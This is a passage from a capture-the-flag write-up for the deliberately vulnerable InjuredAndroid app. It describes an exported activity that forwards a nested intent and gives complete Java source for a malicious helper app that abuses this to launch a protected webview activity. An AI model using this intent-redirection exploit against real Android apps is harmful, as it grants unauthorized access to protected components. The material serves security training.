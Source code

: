 **FlagTwelveProtectedActivity**
- Obtain the URL from the **Intent** extras **totally_secure** and load in the **webview**.
- If the URL isn't HTTPS, then, load as HTML.

**ExportedProtectedIntent**
- Is exported and **can be called by other applications**.
- The class receive an **Intent** that contain **another** intent (**access_protected_component**).
- If the intern **intent** is for an **activity inside of the b3nac.injuredandroid package**, this is initialized (our malicious apk will abuse of this).

Then, we need open android studio a craft the app.

![[injuredAndroid8.png]]

**MainActivity.java** file:
```java
package b3nac.injuredandroid.flag12;  
  
import androidx.appcompat.app.AppCompatActivity;  
import android.content.Intent;  
import android.os.Bundle;  
  
public class MainActivity extends AppCompatActivity {  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
        setContentView(R.layout.activity_main);  
  
        // Intent for FlagTwelveProtectedActivity activity  
        Intent twelveIntent = new Intent();  
        twelveIntent.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagTwelveProtectedActivity");  
        twelveIntent.putExtra("totally_secure", "https://lautarovculic.com");  
  
        // Intent for ExportedProtectedIntent activity  
        Intent exportedActivity = new Intent();  
        exportedActivity.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.ExportedProtectedIntent");  
        exportedActivity.putExtra("access_protected_component", twelveIntent);  
  
        startActivity(exportedActivity);  
    }  
  
}
```

Then, build & run the app

![[injuredAndroid9.png]]

We can see that the application was exploited and the flag automatically is called.

**Flag:** In this flag isn't necessary put the flag in some field.
